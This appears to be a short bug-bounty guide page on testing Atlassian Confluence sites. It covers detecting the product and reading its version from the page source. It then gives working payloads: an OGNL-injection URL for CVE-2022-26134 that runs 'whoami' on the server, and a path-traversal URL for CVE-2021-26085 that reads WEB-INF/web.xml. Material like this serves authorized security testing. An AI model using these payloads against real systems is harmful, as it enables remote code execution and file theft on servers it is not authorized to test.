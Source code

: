 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Confluence.md#introduction)

What would you do if you came across a website that uses Confluence?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Confluence.md#how-to-detect)

Try to HTTP request to `https://example.com/login.action?os_destination=%2F` and there is a form login

1. Find the related CVE by checking Confluence version

- How to find the Confluence version

Try to request to `https://example.com/login.action?os_destination=%2F` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the Confluence version. If you found outdated Confluence version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-6258/Atlassian-Confluence.html)

Some example CVE:

- CVE-2022-26134 (Remote Code Execution)

```
https://example.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

- CVE-2021-26085 (Arbitrary File Read)

```
https://example.com/s/test/_/;/WEB-INF/web.xml
```


